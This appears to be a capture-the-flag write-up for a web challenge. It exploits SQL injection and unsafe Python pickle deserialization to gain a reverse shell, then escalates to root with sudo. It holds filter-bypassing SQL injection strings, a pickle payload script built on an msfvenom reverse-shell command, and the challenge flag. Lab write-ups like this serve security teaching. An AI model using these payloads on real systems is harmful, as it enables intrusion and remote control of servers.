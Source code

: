 # MOVEable

Difficaulty: `Medium`  
Author: `@JohnHammond`  
Category: `Web`  
Points: `376`

## Description

Ever wanted to move your files? You know, like with a fancy web based GUI instead of just FTP or something?

Well now you can, with our super secure app, MOVEable!

Escalate your privileges and find the flag.

### Attachments

[app.zip](./attachments/app.zip)

## Solution

Luckily, we have the source code of this challenge. so, we can try to exploring the source code to find if there is any vulnerability.

### Enumeration

For this challenge, I found **2** vulnerabilities in the source code.

1. **SQL Injection**  
   We can see that there is a SQL Injection vulnerability located in **login route**.

   ```python
    sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
   ```

2. **Remote Code Execution**  
   We can see that code using [pickle.load](https://docs.python.org/3/library/pickle.html) to unpack the data which is
   vulnerable to execute arbitrary code during unpacking. located in **download route**

   ```python
    file_blob = pickle.loads(base64.b64decode(file_data[0]))
   ```

With this information, we know that we can exploit following this steps:

1. Inject malicious SQL statement includes:  
   To create fake active session

   ```
   \;INSERT/**/INTO/**/activesessions/**/VALUES/**/(\foo\,\foo\,\foo\);--
   ```

   To insert reverse shell payload to database

   ```
   \;INSERT/**/INTO/**/files/**/VALUES/**/(\payload\,\<data>\,\foo\);--
   ```

2. Request **GET /downloads/payload/foo** to invoke `pickle.load` function and the payload will be executed.
3. Get reverse shell connection and escalate privilege to get the flag.

**_Input Filter Bypass Breakdown_**

`/**/` used instead of whitespace.  
`\` used to escape the single quote.

### Prepare the payload

Script used to create pickle payload  
Ref: [
Exploiting Python pickles ](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

```python
import os
import pickle
import base64

# Using msfvenom to generate reverse shell payload
# msfvenom -p cmd/unix/reverse_python LHOST=<host> LPORT=<port> R
command = "python3 -c \"exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('<reverse_shell_payload>')[0])))\""

class rce(object):
    def __reduce__(self):
        return (os.system, (command,))

print(base64.b64encode(pickle.dumps(rce())))
```

### Exploit

From our enumeration and payload preparation, we will start exploit with steps that I have mentioned.

Perform SQL Injection to create fake active session and create malicious file in database.

![Burp](./images/burp.png)

Setup reverse shell listener.

![Listener](./images/listener.png)

Execute pickle.load by request **GET /downloads/payload/foo**

![Execute](./images/execute.png)

Reverse shell listener catched the connection. To perform privilege escalation, we can perform privilege escalation by simply try to run `sudo -l` to see if we can run any command as root.  
In this case, current user is in sudoers list and can run any command as root via `sudo` without password.

![Solved](./images/solved.png)

## Flag

```txt
flag{ac53cd7aa8a2d1b2340a6eb4a356709e}
```
